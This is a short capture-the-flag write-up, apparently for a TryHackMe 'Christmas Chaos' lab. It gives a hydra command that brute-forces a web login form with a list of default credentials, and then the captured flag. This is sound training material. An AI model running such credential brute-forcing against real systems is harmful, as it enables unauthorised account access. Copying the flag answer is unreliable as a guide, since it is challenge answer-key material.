


# Day 3

##  Christmas Chaos

Login into http://10.10.210.199/ with defaults credentials





Command

```shell
hydra -C options.txt 10.10.210.199 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username is incorrect.."
```

Flag is `THM{885ffab980e049847516f9d8fe99ad1a}`

## Links

- https://security.stackexchange.com/questions/195219/brute-forcing-dvwa-login-page-with-hydra